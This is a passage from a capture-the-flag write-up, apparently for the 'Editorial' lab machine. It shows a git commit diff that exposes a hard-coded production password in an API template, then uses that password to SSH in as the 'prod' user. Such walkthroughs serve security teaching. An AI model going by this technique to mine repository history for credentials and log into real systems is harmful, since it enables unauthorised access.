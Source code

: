 ```c
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------
```

| Password                 |
| ------------------------ |
| 080217_Producti0n_2023!@ |

The `password` we found also worked on the`prod` user.

```c
┌──(kali㉿kali)-[~]
└─$ ssh prod@editorial.htb
prod@editorial.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jun 15 07:50:18 PM UTC 2024

  System load:           0.01
  Usage of /:            60.7% of 6.35GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             231
  Users logged in:       1
  IPv4 address for eth0: 10.129.111.223
  IPv6 address for eth0: dead:beef::250:56ff:fe94:e3fd


Expanded Security Maintenance for Applications is not enabled.

```
